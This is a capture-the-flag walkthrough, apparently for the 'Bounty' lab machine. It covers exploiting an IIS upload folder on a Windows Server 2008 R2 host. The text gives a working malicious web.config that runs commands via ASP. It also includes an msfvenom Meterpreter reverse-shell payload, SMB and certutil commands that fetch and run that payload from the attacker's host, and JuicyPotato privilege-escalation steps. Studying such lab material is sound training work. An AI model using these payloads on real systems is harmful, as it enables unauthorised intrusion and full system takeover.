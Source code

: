 # bounty

`nmap` shows us that only port 80 is open, so lets begin enumerating that

![](../../.gitbook/assets/image%20%288%29%20%281%29%20%281%29.png)

shows us that we have an `aspx` files, and a folder which looks like, if we upload some thing it will go there. So lets upload a web.config with some `aspx` code in the end. This just runs a systeminfo command. I've tried with just `systeminfo` first, but it doesn't work but the below `cmd.exe /c systeminfo` worked

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
        Set cmd1 = wShell1.Exec("cmd /c systeminfo")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-->
```

now, I'm going to make use of my default commands for doing file upload/download related things on windows

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
copy x:\shell.exe c:\windows\temp\shell.exe
```

once we've run both these commands on the server using the above tactic. Replace the cmd.exe with the above net use command, and after that we can try to just run the reverse shell command with the payload we generate from msfvenom. the systeminfo command gives us the information about the webserver \(omitted unneeded info\)

```text
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Domain:                    WORKGROUP
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

so its a x64 and 2008 R2 server. lets generate the msfvenom payload now,

```text
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f exe -o shell.exe
```

we can use either a normal reverse shell or meterpreter shell here. I've used meterpreter since I find it a bit easy to manage and has some useful functionality like file upload etc.

```text
certutil -urlcache -split -f http://10.10.14.9/shell.exe shell.exe
```

this is the part where the payload is uploaded into the box using the code execution we got via the web.config. This should work with doing just a normal smb transfer as well. Once we upload the payload and got a call back on our python3 -m http.server 80, we can be sure that our payload is uploaded into the remote server.

now we can change the payload in our web.config file to just execute the shell we have uploaded.

Once we understand whats going on and how to exploit it, its a matter of bunch of commands to exploit this machine which I've summarised below

```text
# to server our payload files
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

# use the remote share - this command to be run in the web.config file
net use x: \\10.10.14.9\kalishare /user:guest guest

# in the web.config, run the shell.exe, this gives us reverse shell as merlin
cmd /c x:\\shell.exe

# get juicypotato.exe into our share
# now that we got a shell, run (also listen on 4242)
# we can use the same shell.exe and listen on same port, since the active session
# is not listening anymore on that port
x:\JuicyPotato.exe -t * -p x:\\shell.exe -l 9001

and we get a root shell
```

![](../../.gitbook/assets/image%20%289%29.png)

